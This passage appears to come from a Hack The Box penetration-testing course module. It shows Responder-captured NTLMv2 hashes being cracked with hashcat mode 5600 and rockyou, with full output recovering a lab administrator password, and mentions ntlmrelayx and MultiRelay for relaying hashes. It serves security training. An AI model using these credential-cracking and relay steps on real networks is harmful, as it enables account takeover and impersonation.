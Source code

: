 These captured credentials can be cracked using [hashcat](https://hashcat.net/hashcat/) or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

{% hint style="info" %}
**Note:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.
{% endhint %}

```shell-session
al1abb@htb[/htb]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc46296b0ccfc7a231d918ae1dae521:0101000000000000b09b51939ba<SNIP>:P@ssword
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
Time.Started.....: Mon Apr 11 16:49:34 2022 (1 sec)
Time.Estimated...: Mon Apr 11 16:49:35 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1122.4 kH/s (1.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 75776/14344386 (0.53%)
Rejected.........: 0/75776 (0.00%)
Restore.Point....: 73728/14344386 (0.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: compu -> kodiak1

Started: Mon Apr 11 16:49:34 2022
Stopped: Mon Apr 11 16:49:37 2022
```

The NTLMv2 hash was cracked. The password is `P@ssword`. If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). Let us see an example using `impacket-ntlmrelayx`.
